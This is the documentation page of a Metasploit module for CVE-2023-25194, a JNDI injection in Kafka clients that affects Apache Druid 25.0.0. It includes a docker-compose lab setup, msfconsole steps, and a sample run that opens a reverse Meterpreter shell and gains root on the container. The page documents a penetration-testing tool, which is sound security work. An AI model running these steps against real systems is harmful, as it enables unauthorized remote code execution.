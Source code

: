 ## Vulnerable Application

Apache Kafka is an open-source distributed event streaming platform that is used for real-time data streaming and processing. Kafka clients are a set of Java libraries that allow you to produce and consume messages from Apache Kafka.

In the version prior to 3.3.2, there is a JNDI injection issue in the Apache Kafka clients if an attacker is able to set the `sasl.jaas.config` property for any of the connector's Kafka clients to `com.sun.security.auth.module.JndiLoginModule`. It will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization of untrusted data (or) RCE vulnerability when there are gadgets in the classpath.

As Apache Druid dependeds on kafka-clients to connect to one of its datasources, making it out of the box vulnerable if using any affected version

The below docker compose file can be used to build a vulnerable container 

```doocker-compose
version: '2'
services:
 web:
   image: vulhub/apache-druid:25.0.0
   ports:
    - "8888:8888"
```


## Verification Steps

Metasploit:

1. `./msfconsole`
1. `use exploit/multi/http/apache_druid_cve_2023_25194`
1. `set rhosts <rhost>`
1. `run`

## Scenarios

### Apache Kafka-clients 3.3.1 on Druid version 25.0.0

```
msf6 exploit(multi/http/apache_druid_cve_2023_25194) > exploit 

[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to trigger the jndi callback...
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Client sent unbind request
[*] Server stopped.
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:42908) at 2023-06-22 13:33:01 +0200

meterpreter > sysinfo
Computer     : 72fc9c4031a6
OS           : Linux 6.1.11-1-MANJARO #1 SMP PREEMPT_DYNAMIC Thu Feb  9 14:03:23 UTC 2023
Architecture : x64
Meterpreter  : python/linux
meterpreter > shell
Process 1112 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
find /opt/druid/extensions/druid-kafka-indexing-service/ -iname "kafka-clients*"
/opt/druid/extensions/druid-kafka-indexing-service/kafka-clients-3.3.1.jar
^C
Terminate channel 1? [y/N]  y
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 127.0.0.1 - Meterpreter session 1 closed.  Reason: User exit
```
